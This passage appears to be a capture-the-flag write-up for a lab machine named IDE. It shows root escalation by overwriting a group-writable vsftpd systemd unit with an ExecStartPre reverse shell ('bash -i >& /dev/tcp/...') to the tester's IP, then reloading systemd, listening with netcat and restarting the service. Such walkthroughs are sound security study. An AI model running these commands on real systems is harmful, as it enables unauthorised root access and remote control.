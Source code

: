 check vsftpd service file

```
drac@ide:~$ /usr/sbin/service vsftpd status
● vsftpd.service - vsftpd FTP server
   Loaded: loaded (/lib/systemd/system/vsftpd.service; enabled; vendor preset: enabled)
   Active: active (running) since Fri 2023-09-15 15:19:36 UTC; 1h 8min ago
  Process: 741 ExecStartPre=/bin/mkdir -p /var/run/vsftpd/empty (code=exited, status=0/SUCCESS)
 Main PID: 812 (vsftpd)
    Tasks: 1 (limit: 498)
   CGroup: /system.slice/vsftpd.service
           └─812 /usr/sbin/vsftpd /etc/vsftpd.conf

Warning: Journal has been rotated since unit was started. Log output is incomplete or unavailable.
```

we found
```
/lib/systemd/system/vsftpd.service
```

check write permission

```
drac@ide:~$ ls -la /lib/systemd/system/vsftpd.service
-rw-rw-r-- 1 root drac 248 Aug  4  2021 /lib/systemd/system/vsftpd.service

```

we can see file is writable with group drac, well means we can write it

final exploit , on IDE client machine
i did this using `echo` to rewrite existing service configuration with mine, that will give me root shell when vsftpd restarted as root
```
drac@ide:~$ echo -e "Description=vsftpd FTP server \nAfter=network.target \n[Service] \nType=simple \nExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf \nExecReload=/bin/kill -HUP $MAINPID \nExecStartPre=/bin/bash -c 'bash -i >& /dev/tcp/10.9.113.16/1337 0>&1' \n[Install] \nWantedBy=multi-user.target" > /lib/systemd/system/vsftpd.service
```

then, reload daemon

```
drac@ide:~$ systemctl daemon-reload
```

on my machine

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1337
```

on IDE client machine,

```
drac@ide:~$ sudo /usr/sbin/service vsftpd restart

```
